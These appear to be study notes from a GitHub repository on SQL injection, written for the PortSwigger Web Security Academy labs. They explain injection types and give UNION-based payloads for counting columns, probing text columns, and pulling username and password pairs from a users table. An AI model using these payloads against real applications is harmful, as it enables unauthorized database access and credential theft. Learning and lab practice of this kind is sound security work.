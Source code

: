 # SQL Injection (SQLi) - PortSwigger Labs

## 📌 Introduction
SQL Injection (SQLi) is a vulnerability that allows attackers to manipulate an application's database queries. This can result in unauthorized access, data leaks, and even system compromise.

---

## 🏆 Types of SQL Injection
1. **In-Band SQL Injection**
   - **Union-based SQLi**: Uses `UNION` to retrieve additional data.
   - **Error-based SQLi**: Leverages database errors to extract information.
   
2. **Blind SQL Injection** (No direct feedback)
   - **Boolean-based SQLi**: Infers database responses based on true/false conditions.
   - **Time-based SQLi**: Uses delays to determine success.
   
3. **Out-of-band SQL Injection**
   - Extracts data through external channels like DNS or HTTP requests.

---

## 🔍 Exploiting SQL Injection with UNION
### **How UNION Attacks Work**
If a vulnerable application returns query results in responses, attackers can use `UNION` to retrieve additional data from the database.
```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2;
```
**Conditions for a Successful UNION Attack:**
1. Both queries must have the **same number of columns**.
2. The data types of each column must be **compatible**.

---

### **Finding the Number of Columns**
Two main techniques can determine the correct number of columns:

#### **1️⃣ ORDER BY Method**
```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```
An error occurs when the specified column index exceeds the actual column count.

#### **2️⃣ UNION SELECT NULL Method**
```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```
![SQL Injection Lab](https://github.com/secgirl-victoria/SQL_Injection/blob/main/Lab_01.png)
If the number of `NULL` values is incorrect, an error occurs. When correct, an additional row is displayed.

**Note:** On Oracle databases, `DUAL` is required:
```sql
' UNION SELECT NULL FROM DUAL--
```

---

### **Identifying Columns That Accept Text**
To find which columns can store text data, test each column:
```sql
' UNION SELECT 'test',NULL,NULL--
' UNION SELECT NULL,'test',NULL--
' UNION SELECT NULL,NULL,'test'--
```
An error indicates an incompatible data type, while a successful attempt displays the string in the response.

---

### **Extracting Sensitive Data**
Once column count and data types are known, attackers can retrieve data:
```sql
' UNION SELECT username, password FROM users--
```
![SQL Injection Lab](https://github.com/secgirl-victoria/SQL_Injection/blob/main/Lab_02.png)

#### **Handling Single Column Output**
If only one column is returned, values can be concatenated:
```sql
' UNION SELECT username || '~' || password FROM users--  -- Oracle
' UNION SELECT CONCAT(username, ':', password) FROM users--  -- MySQL
```
![SQL Injection Lab](https://github.com/secgirl-victoria/SQL_Injection/blob/main/Lab_03.png)

## 🎯 References
- [PortSwigger Web Security Academy](https://portswigger.net/web-security/sql-injection)
- [OWASP SQL Injection Guide](https://owasp.org/www-community/attacks/SQL_Injection)






